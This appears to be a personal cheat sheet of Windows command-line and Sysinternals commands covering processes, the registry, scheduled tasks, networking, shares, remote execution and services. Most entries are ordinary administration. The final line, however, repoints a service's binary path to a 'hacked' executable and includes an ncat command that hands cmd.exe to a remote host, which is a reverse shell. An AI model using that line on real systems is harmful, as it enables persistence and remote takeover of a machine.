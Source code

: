 # Basic Windows 

- https://learn.microsoft.com/en-us/sysinternals/
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands
## Processes

```
tasklist /?
tasklist /fi (username eq myuser) /v /fo table | find "cmd"
tasklist /fo csv

taskkill /pid somepid

wmic process where (ProcessId=<processID>) get Caption,ProcessId,ParentProcessID

pslist /?
pslist -d
pslist -t

pskill
pssuspend
```

## Programs

```
listdlls
listdlls -u # unsigned

set PATH=%PATH%;C:\Users\myuser\Downloads\SysinternalsSuite

dir /s *somefile*
```

### Registry

```
reg /?
reg query hkcu\software\microsoft\windows\currentversion\runonce
reg query hkcu\software\microsoft\windows\currentversion\run
reg delete
reg add hkcu\software\myregistrydirectory /v mykey /t myvaluetype /d myvalue
reg query hklm\path\to\key
reg export hkxx\path\to\key keyfilename

schtasks /?
schtasks /create /tn mytask /sc onstart # on reboot
schtasks /run /i /tn mytast # force run

fsutil
fsutil fsinfo
fsutil fsinfo drives
fsutil fsinfo drivetype c:
fsutil fsinfo volumeinfo c:

systeminternalsuite\du -accepteula c:

dir /r
sysinternalsuite\stream.exe -accepteula

c:\Windows\System32\conhost.exe
```

## System

```
systeminfo /s somehost /u someuser\somedomain /p somepass

set
setx
setx varsystemwide "someprg.exe" /m
```

## Networking

```
ipconfig /all
ipconfig /renew "myadapter"

netstat -ano
arp -s
route print
ping -n
tracert
pathping
```

### Shares

```
nbtstat /n # netBios ports 135, 138, 139
nslookup

net share
net share mysharename=c:\my\share\dir
net use
net use f: \\hostnameorip\dir /user:someuser /persistent:no
```

### Remote connexions

```
nc -s ipaddr -l -n -v -p portnum # listener
nc ipaddr portnum # open connection
socat

psexec -i \\remotecomputer cmd /c "somecommandtorunontheremote"
psexec -i \\remotecomputer -s cmd /c "somecommandtorunontheremote" # system privileges
psexec -i \\remotepc -u user -p pass cmd # interactive connexion
```

## Firewall

```
netsh advfirewall show allprofiles
netsh advfirewall set ?
netsh advfirewall add rule ?
```

## Services

```
sc start WSearch

tasklist /svc # list all services
sc query someservice # query one
sc qc someservice
PsService.exe query WSearch
PsService.exe config WSearch
net stop WSearch
net start WSearch
sc config WSearch start=auto
psservice config WSearch

psservice setconfig someservice auto
sc config someservice binPath="c:\hacked\binary.exe" # "ncat.exe 192.168.1.1 4444 -e cmd.exe"
```

